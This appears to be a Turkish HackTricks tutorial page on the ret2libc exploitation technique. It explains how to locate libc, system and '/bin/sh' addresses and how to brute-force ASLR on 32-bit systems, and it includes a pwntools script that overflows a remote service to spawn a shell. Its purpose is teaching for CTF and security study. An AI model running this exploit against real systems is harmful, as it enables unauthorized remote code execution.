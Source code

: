 # Ret2lib

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## **Temel Bilgiler**

**Ret2Libc**'in özü, bir zayıf programın yürütme akışını, saldırgan tarafından sağlanan shellcode'u yığın üzerinde çalıştırmak yerine, bir paylaşılan kütüphanedeki (örneğin, **system**, **execve**, **strcpy**) bir işleve yönlendirmektir. Saldırgan, yığın üzerindeki dönüş adresini istenen kütüphane işlevine işaret edecek şekilde değiştiren bir yük oluşturur ve çağrı konvansiyonuna göre gerekli argümanların doğru bir şekilde ayarlandığından emin olur.

### **Örnek Adımlar (basitleştirilmiş)**

* Çağrılacak işlevin adresini (örneğin, system) ve çağrılacak komutu (örneğin, /bin/sh) alın
* Komut dizesine işaret eden ilk argümanı ve işleve yürütme akışını geçmek için bir ROP zinciri oluşturun

## Adresleri Bulma

* Kullanılan `libc`'nin mevcut makineden olduğunu varsayarsak, bellekte nerede yükleneceğini bulmak için: 

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

libc adresinin ASLR tarafından değişip değişmediğini kontrol etmek istiyorsanız şunu yapabilirsiniz:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Kullanılan libc'yi bilmek, `system` fonksiyonuna olan ofseti bulmayı da mümkün kılar:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Kullanılan libc'yi bilmek, `/bin/sh` fonksiyonuna olan ofseti bulmayı da mümkün kılar:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF Kullanımı

Kullanılan libc'yi bilmek, **system** fonksiyonunun, **exit** fonksiyonunun ve **`/bin/sh`** dizesinin adresini almak için Peda veya GEF kullanmayı da mümkün kılar:
```
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps Kullanımı

Eğer süreç her konuştuğunuzda **çocuklar** oluşturuyorsa (ağ sunucusu) o dosyayı **okumayı** deneyin (muhtemelen root olmanız gerekecek).

Burada **libc'nin süreç içinde tam olarak nerede yüklü olduğunu** ve **sürecin her çocuğu için nerede yükleneceğini** bulabilirsiniz.

![](<../../../../.gitbook/assets/image (95).png>)

Bu durumda **0xb75dc000** adresinde yüklenmiştir (Bu libc'nin temel adresi olacaktır)

## Bilinmeyen libc

Binariesinin yüklediği **libc'yi bilmiyor olabilirsiniz** (çünkü erişiminiz olmayan bir sunucuda bulunabilir). Bu durumda, **bazı adresleri sızdırmak ve hangi libc** kütüphanesinin kullanıldığını bulmak için açığı kötüye kullanabilirsiniz:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Ve bunun için bir pwntools şablonunu burada bulabilirsiniz:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## 32 bitlerde ASLR'yi Aşmak

Bu kaba kuvvet saldırıları **yalnızca 32 bit sistemler için** faydalıdır.

* Eğer istismar yerel ise, libc'nin temel adresini kaba kuvvetle bulmayı deneyebilirsiniz (32 bit sistemler için faydalıdır):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Eğer uzaktan bir sunucuya saldırıyorsanız, **`usleep` `libc` fonksiyonunun adresini brute-force ile bulmayı** deneyebilirsiniz, argüman olarak 10 (örneğin) geçerek. Eğer bir noktada **sunucu yanıt vermek için 10 saniye ekstra alıyorsa**, bu fonksiyonun adresini bulmuşsunuz demektir.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Kod Örneği

Bu örnekte ASLR brute-force kodun içine entegre edilmiştir ve savunmasız ikili dosya uzaktan bir sunucuda bulunmaktadır:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Kod Örneği

Aşağıdaki örneği kontrol edin:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (veya puts)

Bu, `printf`/`puts` çağrısı yaparak **işlemden bilgi sızdırmaya** olanak tanır; belirli veriler bir argüman olarak yerleştirilir.

## Ret2printf

Bu, temelde **Ret2lib'i kötüye kullanarak `printf` format dizeleri zafiyeti** haline dönüştürmek anlamına gelir; `ret2lib` kullanarak printf'i istismar etmek için değerlerle çağırmak (gereksiz gibi görünebilir ama mümkündür):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Diğer Örnekler ve referanslar

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, libc'deki bir fonksiyonun adresine bir sızıntı vererek, bir gadget kullanarak
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ASLR etkin ama PIE yok, ilk adım bir taşmayı 0x00 canary baytına kadar doldurmak ve ardından puts çağırarak sızdırmaktır. Canary ile puts'un GOT'dan adresini sızdırmak için bir ROP gadget'ı oluşturulur ve ardından `system('/bin/sh')` çağırmak için bir ROP gadget'ı.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bit, ASLR etkin, canary yok, bir çocuk fonksiyondan main'de stack overflow. Puts'un GOT'dan adresini sızdırmak için puts'u çağıran bir ROP gadget'ı ve ardından bir gadget çağırır.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bit, pie yok, canary yok, relro yok, nx. Write fonksiyonunu kullanarak write (libc) adresini sızdırır ve bir gadget çağırır.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
